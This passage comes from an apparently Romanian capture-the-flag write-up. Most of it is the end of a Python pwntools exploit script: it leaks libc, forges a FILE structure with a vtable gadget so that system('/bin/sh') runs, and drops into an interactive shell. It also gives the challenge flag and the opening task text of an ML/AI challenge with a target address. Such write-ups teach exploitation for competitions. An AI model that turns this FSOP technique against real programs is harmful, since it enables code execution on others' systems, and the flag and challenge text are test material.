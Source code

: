```py
    r.sendafter(b'ghici > ', fake_chunk)

    libc_leak = u64(r.recv(8))
    libc_base = libc_leak - libc.sym['puts']

    libc.address = libc_base
    log.info(f"libc base: {hex(libc_base)}")

    #stdout_lock = libc.address + 0x2008f0   # _IO_stdfile_1_lock  (symbol not exported)
    stdout_lock = libc.sym['_IO_stdfile_1_lock']
    stdout = libc.sym['_IO_2_1_stdout_']
    fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
    # our gadget
    #gadget = libc.address + 0x00000000001676a0 # add rdi, 0x10 ; jmp rcx
    gadget = next(libc.search(asm('add rdi, 0x10 ; jmp rcx')))

    fake = FileStructure(0)
    fake.flags = 0x3b01010101010101
    fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
    fake._IO_save_base = gadget
    fake._IO_write_end=u64(b'/bin/sh\x00')  # will be at rdi+0x10
    fake._lock=stdout_lock
    fake._codecvt= stdout + 0xb8
    fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
    fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

    import time


    time.sleep(0.5)
    #r.sendlineafter(b'M-am saturat', b'1')
    r.sendline(b'1')
    time.sleep(0.1)
    r.sendline(b'-5')
    time.sleep(0.1)
    r.send(bytes(fake))

    r.interactive()


if __name__ == "__main__":
    main()
```

**Ctf{r3arr4ng3_th3_f1l35_unt1l_y0u_contr0l_th3_n4rr4t1v3}**

<a name="zero-shot"></a>
## zero-shot (50 pts, 34 solves) - ML/AI

Enunt:
```
Sunt foarte curios cum Inteligența Artificială o să ne transforme viața în viitorul apropiat. 

Dacă ești interesat să îți povestesc mai multe, obține secretul din fișierele primite și îți voi zice tot ce vrei să știi.

Target: http://142.93.100.92:19417/
```
